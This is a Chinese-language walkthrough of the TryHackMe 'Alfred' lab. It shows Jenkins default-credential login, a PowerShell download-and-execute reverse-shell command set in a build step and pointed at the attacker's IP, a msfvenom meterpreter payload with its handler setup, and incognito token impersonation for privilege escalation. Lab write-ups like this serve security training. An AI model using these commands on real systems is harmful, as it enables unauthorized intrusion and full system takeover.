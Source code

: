 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Alfred  利用Jenkins/"}
---
```




登录页面是admin：admin

jenkins的默认账号密码，就是`admin/admin`

登录进去之后需要想办法

![image.png](https://s2.loli.net/2025/04/17/FicuwKpRBWzLe46.png)

## 初级权限
点击project

![image.png](https://s2.loli.net/2025/04/17/e1E9AtjWsBzivKH.png)

点击配置文件

在这里有远程命令执行的地方

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.40.203:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.40.203 -Port 8888

因为是使用vpn的缘故 我们在这里ip也只能设置成vpn给我们分配的ip
```
![image.png](https://s2.loli.net/2025/04/18/Zs2wAiBd6pXhYMR.png)

配置完成后 直接点击build now 可以成功反弹shell 文件也成功上传

![image.png](https://s2.loli.net/2025/04/18/rKFAlivqWjOc439.png)

![image.png](https://s2.loli.net/2025/04/18/V4cX2Op6oK7iPne.png)

算获得了初始权限 我们下面用msf来演示一下 需要我们用msfvenom 编写一个能够生成Windows Meterpreter 反向shell的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.40.203 LPORT=4567 -f exe -o shell2.exe
```

然后需要我们用刚才的powershell命令将这个shell2.exe传到靶机上

![image.png](https://s2.loli.net/2025/04/18/NfvE46SHbWDr5QZ.png)

在运行exe文件前 需要先设置好msf的参数

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.17.40.203 
set LPORT 4567 
```

![image.png](https://s2.loli.net/2025/04/18/oUvTFcDQ3185KLs.png)

先运行msf 再运行exe文件 成功连接

## 权限提升
这里用令牌模拟来获取系统访问权限

### 基本知识

访问令牌包括：

    User SIDs(security identifier)
    用户 SID （安全标识符）
    Group SIDs  组 SID
    Privileges  特权

#### 类型
有两种类型的访问令牌：

1. 主访问令牌(primary access tokens)：此类令牌是指与登录时所生成的用户账户相关联的令牌。

2. 模拟令牌(impersonation tokens)：此类令牌能够允许特定进程（或进程中的线程）使用另一个（用户/客户端）进程的令牌来访问相关的资源。

对于模拟令牌，有不同的级别：

- SecurityAnonymous：当前 用户/客户端 不能模拟另一个 用户/客户端。
- SecurityIdentification：当前 用户/客户端 可以获得客户端的身份和权限，但不能模拟客户端。
- SecurityImpersonation：当前 用户/客户端 可以在本地系统上模拟客户端的安全上下文。
- SecurityDelegation：当前 用户/客户端 可以在远程系统上模拟客户端的安全上下文。

最常被滥用的特权：

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

先使用whoami  /priv

查看本机在目标机子中的所有权限

目标机启用了两个关键权限（SeDebugPrivilege、SeImpersonatePrivilege），这两个权限能够让我们使用MSF中的模块来进行令牌模拟操作 这是个重点

![image.png](https://s2.loli.net/2025/04/18/yV8ne9N6dm42oK1.png)

![image.png](https://s2.loli.net/2025/04/18/UVvl1OnjQHGiKx6.png)

在Meterpreter shell界面加载MSF中的incognito模块

`incognito`是Metasploit Framework（MSF）中用于​**​令牌窃取与模拟​**​的核心后渗透模块，专为Windows系统设计。

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid

在这里有个BUILTIN\Administrators管理员账户可用 就模拟他的令牌

偷窃成功之后 会发现我们现在是管理员用户
```


![image.png](https://s2.loli.net/2025/04/18/6FDriBUySP5tuAo.png)



![image.png](https://s2.loli.net/2025/04/18/g9QDPw6WlCS4k3m.png)

获得了管理员用户 但还是不够因为我们没有实际对应用户的特殊权限 需要把进程转移到具有对应特权的进程中 、可以选择迁移到最安全的services.exe进程

![image.png](https://s2.loli.net/2025/04/18/T6kW1N8DwLZI2m7.png)


迁移成功
![image.png](https://s2.loli.net/2025/04/18/dxM9lNrknEjw7gt.png)

